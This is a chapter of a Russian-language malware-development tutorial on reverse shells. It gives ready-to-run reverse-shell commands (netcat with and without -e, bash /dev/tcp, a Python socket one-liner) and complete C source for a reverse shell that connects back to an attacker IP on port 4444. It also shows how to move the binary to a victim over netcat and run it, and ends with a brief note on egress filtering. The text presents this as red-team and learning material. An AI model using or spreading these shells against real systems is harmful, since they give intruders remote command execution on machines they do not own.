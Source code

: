 \newpage
\subsection{3. реверс шелл (обратная оболочка)}

﷽

![reverse shells](./images/4/2021-09-16_11-26.png){height=400px}    

Прежде всего, мы рассмотрим такое понятие, как обратная оболочка (reverse shell), так как это очень важный аспект в разработке вредоносного ПО.

### что такое реверс шелл (обратная оболочка)?

Обратная оболочка (reverse shell), также называемая connect-back shell, - это удаленная оболочка, создаваемая с целевого устройства путем установления соединения с машиной атакующего и запуска целевой оболочки на машине атакующего. Обычно это используется в процессе эксплуатации уязвимости для получения контроля над удаленной машиной.     

![rev shells](./images/4/shells.png)

Обратная оболочка может использовать распространенные исходящие порты, такие как `80, 443, 8080` и другие.    

Обратная оболочка обычно применяется, когда целевая машина жертвы блокирует входящее соединение по определенному порту брандмауэром. Чтобы обойти это ограничение, специалисты Red Team и пентестеры используют обратные оболочки.     

Однако здесь есть один нюанс. Это подвергает сервер управления атакующего риску обнаружения, а сетевые службы мониторинга безопасности могут зафиксировать следы атаки.    

Существует три этапа для получения обратной оболочки.    
Сначала атакующий эксплуатирует уязвимость в целевой системе или сети, которая позволяет выполнить код.    
Затем атакующий настраивает прослушиватель (listener) на своей машине.     
Далее атакующий внедряет обратную оболочку в уязвимую систему для эксплуатации уязвимости.    

Есть еще один нюанс. В реальных кибератаках обратную оболочку можно также получить через социальную инженерию. Например, вредоносное ПО, установленное на локальную рабочую станцию с помощью фишингового письма или вредоносного веб-сайта, может инициировать исходящее соединение с командным сервером и предоставить хакерам возможность обратного соединения.     

![social engineering](./images/4/shells2.png){width="80%"}

Цель этого поста - не эксплуатация уязвимости в целевом хосте или сети, но для понимания достаточно знать что основная идея там заключается в поиске уязвимости, которая может быть использована для выполнения кода.   

В зависимости от установленной на жертве системы и запущенных там сервисов, обратная оболочка может быть разной, например, `php, python, jsp` и т. д.    

***

### listener

Для простоты в этом примере жертва разрешает исходящие соединения на любом порту (по умолчанию правило брандмауэра `iptables`). В нашем случае мы используем `4444` в качестве порта прослушивания. Вы можете изменить его на любой другой порт. Прослушиватель может быть любой программой/утилитой, способной открывать TCP/UDP соединения или сокеты. В большинстве случаев я предпочитаю использовать утилиту `nc` или `netcat`.   

```bash
nc -lvp 4444
```

В этом случае параметры `-l` - слушать, `-v` - подробный вывод и `-p` - порт `4444` на всех интерфейсах. Вы также можете добавить `-n` для работы только с IP-адресами без использования DNS.    

![listener](./images/4/2021-09-11_17-59.png)    

***

### запуск обратной оболочки (примеры)

Для простоты в наших примерах целью является машина с Linux.   
**1. netcat**   
Запуск:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

Где `10.9.1.6` - это IP-адрес машины атакующего, а `4444` - прослушиваемый порт.   

![netcat](./images/4/2021-09-11_18-04.png){width="80%"}

**2. netcat без -e**    

В новых версиях Linux по умолчанию используется традиционный netcat с отключенной опцией `GAPING_SECURITY_HOLE`, что означает отсутствие опции `-e`.

В этом случае на машине жертвы выполните:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](./images/4/2021-09-11_18-23.png){width="80%"}

**3. bash**   

Не работает на старых дистрибутивах на базе Debian.   

Запуск:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](./images/4/2021-09-11_18-12.png){width="80%"}

**4. python**

Чтобы создать полуинтерактивную оболочку с помощью Python, выполните:
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](./images/4/2021-09-11_18-36.png){width="80%"}

Больше примеров: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)    

***

### создание обратной оболочки на C

Моя любимая часть. Так как я пришел в кибербезопасность с бэкграундом разработчика ПО, мне нравится "изобретать велосипед", это помогает лучше понять многие концепции и иногда заглянуть "под капот" многих процессов.    

Как я писал выше, мы будем писать обратную оболочку которую запустим на Linux (целевой хост)   

Создайте файл `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

  // attacker IP address
  const char* ip = "10.9.1.6";

  // address struct
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  // socket syscall
  int sockfd = socket(AF_INET, SOCK_STREAM, 0);

  // connect syscall
  connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

  for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
  }

  // execve syscall
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```

Скомпилируем:

```bash
gcc -o shell shell.c -w
```

![c rev shell compile](./images/4/2021-09-11_18-53.png){width="80%"}

*если вы компилируете для 32-bit linux запустите:* ```gcc -o shell -m32 shell.c -w```

Давайте перейдем к передаче файла на машину жертвы. Передача файла считается одним из самых важных шагов, включенных в постэксплуатацию (как я уже писал ранее, мы не рассматриваем шаг эксплуатации).    

Мы воспользуемся инструментом, который известен как "швейцарский нож хакера", netcat.    

на машине жертвы запустите:    
```bash
nc -lvp 4444 > shell
```

а на машине атакующего:    
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](./images/4/2021-09-11_19-09.png){width="80%"}

проверка:
```bash
./shell
```

![run](./images/4/2021-09-11_19-41.png){width="80%"}

[исходный код на Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### предотвращение

К сожалению, нет способа полностью заблокировать обратные оболочки. Если вы намеренно не используете обратные оболочки для удаленного администрирования, любые обратные соединения оболочки, скорее всего, будут считаться вредоносными. Чтобы ограничить эксплуатацию, вы можете заблокировать исходящие соединения, чтобы разрешить только определенные удаленные IP-адреса и порты для требуемых служб. Этого можно добиться путем помещения сервера в песочницу или запуска сервера в минимальном контейнере.    